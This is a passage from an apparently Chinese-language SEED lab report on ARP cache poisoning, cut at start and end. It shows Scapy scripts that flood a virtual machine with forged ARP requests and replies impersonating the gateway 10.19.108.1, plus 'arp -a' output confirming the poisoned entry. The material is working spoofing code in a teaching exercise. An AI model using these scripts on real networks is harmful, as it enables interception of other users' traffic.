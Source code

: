 
伪造成功。

## ARP Cache Poisoning

### Task1A  ARP request

使用arp -a查看虚拟机1ARP缓存表：

``` Shell
[09/09/20]seed@VM:~$ arp -a
? (10.19.108.1 ) at 50:98:b8:4a:47:0c [ether] on enp0s3
? (10.19.109.154) at <incomplete> on enp0s3
? (10.19.108.220) at ac:07:5f:e0:b3:80 [ether] on enp0s3
? (10.19.108.2) at <incomplete> on enp0s3
? (10.19.109.155) at 08:00:27:b8:a6:4c [ether] on enp0s3
```

虚拟机1的IP地址为10.19.108.164，虚拟机2的IP地址为10.19.109.155，MAC地址为08:00:27:b8:a6:4c，想要污染的IP地址为10.19.108.1，在虚拟机2上向虚拟机1发送ARP请求报文。

``` python
from scapy.all import *
import time

E=Ether()
A=ARP()
A.pdst="10.19.108.164"
A.psrc="10.19.108.1"
pkt=E/A
for i in range (6000) :
    sendp(pkt)
    time.sleep(0.1)
```

不停地向虚拟机1地址发送ARP请求报文，将源地址设置为10.19.108.1，几秒后在虚拟机1上查看：

``` Shell
[09/09/20]seed@VM:~$ arp -a
? (10.19.108.1) at 08:00:27:b8:a6:4c [ether] on enp0s3
? (10.19.109.154) at <incomplete> on enp0s3
? (10.19.108.220) at ac:07:5f:e0:b3:80 [ether] on enp0s3
? (10.19.108.2) at <incomplete> on enp0s3
? (10.19.109.155) at 08:00:27:b8:a6:4c [ether] on enp0s3
```

10.19.108.1成功被污染。

### Task1B  ARP reply

``` python
from scapy.all import *
import time

E=Ether( )
A=ARP( )
A.op=2
A.hwdst="50:98:b8:4a:47 :0c"
A.pdst="10.19.108.164"
A.psrc="10.19.108.1"
pkt=E/A
for i in range (6000) :
    sendp(pkt)
    time.sleep(0.1)
```
